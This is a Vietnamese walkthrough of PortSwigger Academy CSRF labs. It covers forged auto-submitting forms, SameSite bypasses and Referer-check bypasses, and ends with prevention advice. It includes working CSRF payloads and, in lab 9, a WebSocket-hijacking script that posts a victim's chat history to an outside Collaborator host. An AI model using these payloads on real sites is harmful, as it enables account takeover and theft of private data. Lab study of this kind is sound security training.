# CSRF lab

### 1. CSRF vulnerability with no defenses
https://portswigger.net/web-security/csrf/lab-no-defenses

Đăng nhập vào `wiener:peter` sau đó thay đổi email, do việc này không có csrf token cũng không có xác thực mật khẩu nên ta tạo form rồi gửi cho `carlos`

---

### 2. CSRF where token validation depends on request method
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method

Context: ở đây khi dùng POST để đổi email thì cần có thêm `csrf` token, nhưng khi đổi sang GET thì không cần `csrf` token


Từ đây ta tạo csrf form để gửi đi. 

---

### 3. CSRF where token validation depends on token being present
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present

Ở bài này việc xóa đi csrf token trong POST không ảnh hưởng đến kết quả.


Từ đây ta tạo payload.

---

### 4. CSRF where token is not tied to user session
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session

Context: 

1. Csrf token ảnh hưởng đến xử lý, không thể xóa, hay sử dụng trùng nhau
2. Email trùng với tài khoản khác sẽ không hợp lệ, dẫn đến các lần thay đổi sau đó sẽ ko được do csrf token không thay đổi mỗi phiên đăng nhập nên chỉ sử dụng được 1 lần

Nhưng ở đây khi lấy csrf token của phiên đăng nhập của Carlos để gửi với change-email của weiner thì vẫn thành công do chưa sử dụng lần nào và nó tạo ra cho 1 phiên.\


Từ đây ta đăng nhập 1 tài khoản và lấy csrf token cho phiên đó để gửi cho victim.

---

### 5. CSRF where token is tied to non-session cookie
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie

Context:

1. Khi update thì sẽ có cookie `csrfKey` và `csrf` token ở form, và 2 cái này tồn tại theo cặp, dù đổi người dùng thì nếu thay đổi cả 2 giá trị này theo cặp thì vẫn có thể request thành công. 

=> Ta cần đổi cookie `csrfKey` của victim và rồi từ đó có thể dùng `csrf` token của mình

Mặt khác, khi dùng chức năng search, thông tin sẽ được phản hồi ở `Set-cookie` ở response, vậy nên ta sẽ cố gắng chèn thêm `Set-cookie` ở response bằng cách dùng `%0d%0a` là `\r\n`:


Payload: 

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aec003503cf58e580948f3d0053007b.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="absssa&#64;gmail&#46;net" />
        <input type="hidden" name="csrf" value="4ZTQjukf9UX8toqgbTThbm8F16k9F2jO" />
        <input type="submit" value="Submit request" />
    </form>


    
  </body>
</html>
```

---

### 6. CSRF where token is duplicated in cookie
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie

Context: Bài này `csrf` token sẽ trùng với `csrf` cookie

Vẫn tương tự bài trước thì `Search` sẽ được thể hiện qua cookie

Ta sẽ chỉ cần tạo 1 fake `csrf token` và `csrf cookie` giống nhau ở phía victim:

Payload:

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0afa004403c0e408818f0cbd00de0051.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="absssa&#64;gmail&#46;net" />
        <input type="hidden" name="csrf" value="XBeN2PtpvYuFiueM15QTTYjQu37nWczz" />
        <input type="submit" value="Submit request" />
    </form>


    
  </body>
</html>
```

---

### 7. SameSite Lax bypass via method override
https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override

Context: Cần bypass `Samesite: Lax`


Ở phần change-email thì không có sự xuất hiện của csrf token, nhưng khi attack theo kiểu truyền thống thì không thành công, có thể do cần thêm cookie để xác nhận. 


Mặt khác, cookie được tạo và không đặt `Samesite` nên mặc định nó là `Lax`. Với Lax cookie chỉ được include vào request khi đó là `GET` và đến 1 URL cấp cao hơn. Hoặc điều hướng từ trang gốc đến 1 trang redirect

Nhưng khi chuyển qua `GET` nó đang không cho phép request:\


Thêm parameter `_method=POST` (ghi đè method) thì nó thành công:\


Payload: 
```js
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

Tham khảo cách khác để ghi đè method: https://www.sidechannel.blog/en/http-method-override-what-it-is-and-how-a-pentester-can-use-it/

---

### 8. SameSite Strict bypass via client-side redirect

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect

Với cookie được đặt `SameSite=Strict` thì nó chỉ gắn cookie khi chuyển hướng trong trang, ko gắn khi liên trang hay kể cả khác scheme

Vì vậy cần tìm 1 chuyển hướng từ trang gốc đến chính trang đó, và ở đây mình sẽ cố đâm vào cái url chuyển hướng thứ 2, vì nó sẽ mang cookie theo

Ta tìm được 1 trang chuyển hướng khi post comment ta nhận được path: `/post/comment/confirmation?postId=x`

Sau đó nó được chuyển hướng về postId `x`

Thêm vào đó ta có thể thâu tóm path này để path traversal đến bất kì trang nào:



Mặt khác ta có thể change email bằng GET thay vì POST 

```http
GET /my-account/change-email?email=abcd%40gmail.net&submit=1 HTTP/2
```

Payload:

```js
<script>
    document.location = "https://0a06002304ad4b2082303ecf00390045.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```

Gửi cho victim

Khi victim truy cập vào link, nó sẽ redirect đến trang này và vì cùng site nên nó vẫn mang theo cookie victim

---

### 9. SameSite Strict bypass via sibling domain

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain

Khi vào `/chat` ta thấy không có token nào để xác định cá nhân đang yêu cầu



Vào `WebSockets history` ta thấy khi refresh chat browser sẽ send `READY` cho server và các gói tin tiếp theo là lịch sử trước đó 



Dùng `Collaborator` tạo script:

```js
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```



Và thử xem exploit thì ta sẽ nhận được gói tin ở `Collaborator` chứng tỏ ta đã kích hoạt được để nó gửi payload ra, thế nhưng ta chỉ lấy được 1 phiên mới, ko lấy được phiên cũ ta vừa chat



Qua tab `History` ta thấy `GET /chat` không được gửi cùng cookie, vì cookie khi server đã có `SameSite=Strict`



Điều này bắt buộc phải có thêm 1 lỗ hổng khác

Ta thấy rằng có 1 request cho phép `Access-Control-Allow-Origin` và domain lấy là: `cms-YOUR-LAB-ID.web-security-academy.net`



Ta vào thử domain này:



Login username bất kì ta nhận được:



Thử với username `<script>alert(1)</script>` ta nhận được alert:



Đổi method `POST` thành `GET` và thử lại ta thấy vẫn có thể kích hoạt XSS



Ta sẽ tận dụng domain này vì domain này được allow nên có thể được mang theo cookie

Bây giờ đoạn script khai thác lúc nãy ta sẽ encode đưa vào username:

```js
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```



Còn ở exploit server ta sẽ thêm đoạn script mà đoạn username sẽ là đoạn encode script ở trên:

```js
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```



Để khi người dùng vào url này nó sẽ từ domain cms kích hoạt XSS nên sẽ tạo `/chat` cho domain gốc, do allow origin nên nó được mang theo cookie, điều này giúp ta lấy được lịch sử đoạn chat theo cookie victim


---

Thường khi không cấp chế độ gì cho cookie thì nó sẽ tự động được gắn là `Lax` và không được gửi với POST cho chéo trang

nhưng vì để không phá vỡ cơ chế SSO, trong 120s đầu tiên cấp cookie nó vẫn có thể dùng với POST, và đây là khoảng thời gian mà cookie không ở chế độ `Lax`

Sẽ không khả thi nếu để căn thời gian để tấn công như vậy. Thay vào đó ta tìm 1 gadget khác để bắt buộc người dùng cấp 1 cookie mới thì từ đó thực hiện cuộc tấn công. 

Ví dụ: việc hoàn tất luồng đăng nhập dựa trên OAuth có thể dẫn đến một phiên mới vì dịch vụ OAuth không nhất thiết phải biết liệu người dùng có còn đăng nhập vào trang web đích hay không (nếu còn trong phiên thì người dùng không cần thao tác, việc đăng nhập và cấp cookie có thể diễn ra liên tục).

Để kích hoạt làm mới cookie mà không cần victim đăng nhập lại, cần sử dụng điều hướng cấp cao nhất để đảm bảo rằng các cookie được liên kết với phiên OAuth hiện tại của victim được mang theo. Điều này dẫn đến 1 khó khăn khác vì sau đó cần phải chuyển hướng người dùng trở lại trang web attack để có thể khởi chạy cuộc tấn công CSRF.

Ngoài ra, có thể kích hoạt làm mới cookie từ một tab mới để trình duyệt không thoát khỏi trang, trước khi có thể thực hiện cuộc tấn công cuối cùng. Một trở ngại nhỏ với cách tiếp cận này là trình duyệt chặn các tab bật lên trừ khi chúng được mở thông qua tương tác thủ công. Ví dụ, cửa sổ bật lên sau sẽ bị trình duyệt chặn theo mặc định:

`window.open('https://vulnerable-website.com/login/sso');`

Để giải quyết vấn đề này, có thể gói câu lệnh trong trình xử lý sự kiện `onclick` như sau:

```js
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```

Theo cách này, phương thức `window.open()` chỉ được gọi khi người dùng nhấp vào đâu đó trên trang.

---

### 10. SameSite Lax bypass via cookie refresh

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh

Mục tiêu: đổi email của victim

Context: có OAuth login

Login vào tài khoản social và thử đổi email

Ta chú ý đến response của OAuth `GET /oauth-callback?code=[...]` và cookie không kèm chế độ gì nên nó sẽ được đặt là `Lax`



Quan sát ta có thể thấy request POST không có csrf token nên chỉ cần có cookie thì ta có thể tấn công CSRF



Payload đổi change email:

```js
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

Và khi vừa login chưa đầy 2 phút, thử `View exploit` ta thấy nó đổi thành công và POST mang theo cookie:





Bây giờ ta tìm cách để cấp mới session cho victim, khi ta truy cập `/social-login` thì nó sẽ login lại và sẽ cấp 1 cookie mới:





Sửa payload để victim truy cập `/social-login` trước khi ta tấn công CSRF:

``js
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

Thử `View exploit` ta thấy thông báo bị chặn cửa sổ bật lên:



Nhưng khi tắt thông báo đó thì cuộc tấn công vẫn thực hiện, nhưng nó vẫn phải đảm bảo về mặt thời gian là < 2 phút kể từ khi login:



Browser block vì không có thao tác 1 cách trực tiếp với page, ta thêm payload để victim khi và trang, click bất kì thì sẽ mở cửa sổ và thực hiện cấp mới cookie:

```js
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

Ở đây ta thực hiện change email sau khi truy cập `/social-login` 5s

Test thử:

Nó sẽ mở ra 1 tab mới, khi click bất kì trong tab này nó sẽ đăng nhập:



Và 5s sau ở tab cũ nó sẽ thực hiện change email:



Lưu ý nên tăng thêm số giây chờ để nó sẽ thực hiện login session mới trước khi change email:





---

# Bỏ qua các biện pháp phòng thủ CSRF dựa trên Referer

1 số trang web thực hiện biện pháp dùng Referer để phòng thủ CSRF bằng cách xác minh yêu cầu này đến từ trang web của họ. Cách tiếp cận này thường yếu hơn

---

Một số trang sẽ xác thực `Referer` khi có mặt nhưng lại thiếu sót khi sẽ bỏ qua nếu không có `Referer` trong request

Kẻ tấn công sẽ thao túng để request của victim ko có `Referer` ví dụ:

`<meta name="referrer" content="never">`

---

### 11. CSRF where Referer validation depends on header being present

https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present

Test thử CSRF:

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a490017038fb2118041801400e3005f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="abcd&#64;gmail&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```



Nó báo `referer` header đang bị sai, thêm `<meta name="referrer" content="never">` và exploit lại thì ta đã có thể change email:





Ta cũng có thể thay bằng `<meta name="referrer" content="no-referrer">`

Bây giờ đổi 1 email khác và gửi cho victim

---

Nhiều trình duyệt loại bỏ phần query trong `Referer` trong request gửi đi, để có thể ghi đè hành vi này bằng `Referrer-Policy: unsafe-url` trong request để đảm bảo tất cả url được gửi đi

---

### 12. CSRF with broken Referer validation

https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken

Đăng nhập và đổi email ta bắt được gói tin POST:



Thay đổi `Referer` ta nhận được thông báo rằng `referer` không hợp lệ:



Nếu đổi có domain của lab gốc thì thành công, nó sẽ chỉ xét xem có url đó không chứ ko quan tâm nó ở đoạn nào của url:



Nhưng nếu ta chỉ thay đổi chuỗi query khi POST khi `View exploit` ta nhận được `referer` không có chuỗi query và nhận lỗi 400:





Điều này do mặc định các browser sẽ xóa đi đoạn query khi gửi gói tin trong `referer` để ghi đè hành vi này ta cần thêm header `Referrer-Policy: unsafe-url` khi query:



Gửi lại ta thấy thành công

---

# Ngăn chặn CSRF

## Sử dụng CSRF Token

Cách bảo vệ hiệu quả nhất là sử dụng CSRF token trong các yêu cầu liên quan. CSRF token cần:

- Không thể đoán được và có độ phức tạp cao (entropy cao).
- Gắn liền với phiên (session) của người dùng.
- Được kiểm tra nghiêm ngặt trước khi thực hiện hành động.

CSRF token cần được truyền dưới dạng trường ẩn (hidden field) trong biểu mẫu HTML (method POST):

`<input type="hidden" name="csrf-token" value="CIwNZNlR4XbisJF39I8yWnWX9wX4WFoz" />`

Trường này nên được đặt ở đầu tài liệu HTML để giảm nguy cơ tấn công chèn HTML.

## Sử dụng SameSite Cookie Strict

Nên thiết lập cờ SameSite trên cookie để hạn chế cách chúng được sử dụng trong các ngữ cảnh khác nhau:
- `Strict` là lựa chọn an toàn nhất, giảm xuống `Lax` chỉ khi cần thiết.
- Không nên sử dụng `SameSite=None` trừ khi hiểu rõ rủi ro.

##  Cảnh giác với tấn công cùng site nhưng khác nguồn gốc (cross-origin, same-site attacks)

- `SameSite` cookie không bảo vệ được tấn công "cross-origin, same-site".
- Nên cô lập nội dung không an toàn (như file do người dùng tải lên) trên một domain riêng biệt với các chức năng nhạy cảm.
- Khi kiểm tra bảo mật, cần xem xét kỹ toàn bộ bề mặt tấn công của site và các domain liên quan.


